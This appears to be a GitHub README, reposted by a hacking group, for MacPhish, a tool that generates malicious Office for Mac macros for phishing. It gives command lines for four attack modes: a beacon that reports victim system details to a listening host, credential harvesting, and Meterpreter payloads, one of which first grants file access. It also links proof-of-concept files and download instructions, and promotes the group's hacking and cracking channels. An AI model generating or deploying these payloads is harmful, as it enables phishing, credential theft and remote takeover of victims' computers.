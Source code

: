# [MacPhish](https://github.com/The404Hacking/MacPhish)
Office for Mac Macro Payload Generator

![macphish](macphish-alpha.png?raw=true "macphish")

## Attack vectors
There are 4 attack vectors available:
* beacon
* creds
* meterpreter
* meterpreter-grant

For the 'creds' method, macphish can generate the Applescript script directly, in case you need to run it from a shell. 

### beacon
On execution, this payload will signal our listening host and provide basic system information about the victim. The simplest way of generating a beacon payload is:
```
$./macphish.py -lh <listening host> 
```
By default, it uses curl but other utilities (wget, nslookup) can be used by modifying the command template. 

### creds
```
$./macphish.py -lh <listening host> -lp <listening port> -a creds
```
### meterpreter
The simplest way of generating a meterpreter payload is:
```
$./macphish.py -lh <listening host> -lp <listening port> -p <payload> -a meterpreter 
```
### meterpreter-grant
The generate a meterpreter payload that calls GrantAccessToMultipleFiles() first:
```
$./macphish.py -lh <listening host> -lp <listening port> -p <payload> -a meterpreter-grant
```

For meterpreter attacks, only python payloads are supported at the moment. 

## Usage
See https://github.com/cldrn/macphish/wiki/Usage

## PoCs
* <https://drive.google.com/open?id=0BzPR8exG0kt6TlY1UWhiemVKRnc>
* <https://drive.google.com/open?id=0BzPR8exG0kt6WWUzU0tKUjFhdjg>
* <https://drive.google.com/open?id=0BzPR8exG0kt6VzlaWVVJdEtNR0k>
* <https://drive.google.com/open?id=0BzPR8exG0kt6SnJwM01KSzAzMjA>

## Download and Clone
> Download: [https://github.com/The404Hacking/MacPhish/archive/master.zip](https://github.com/The404Hacking/MacPhish/archive/master.zip)

> Clone: git clone [https://github.com/The404Hacking/MacPhish](https://github.com/The404Hacking/MacPhish.git)

## The404Hacking | Digital UnderGround Team
[The404Hacking](https://T.me/The404Hacking)

## Follow us !
[The404Hacking](https://T.me/The404Hacking) - [The404Cracking](https://T.me/The404Cracking)

[Instagram](https://instagram.com/The404Hacking) - [GitHub](https://github.com/The404Hacking)

[YouTube](http://yon.ir/youtube404) - [Aparat](http://www.aparat.com/The404Hacking)

[The404Hacking.BlogSky.Com](http://the404hacking.blogsky.com)
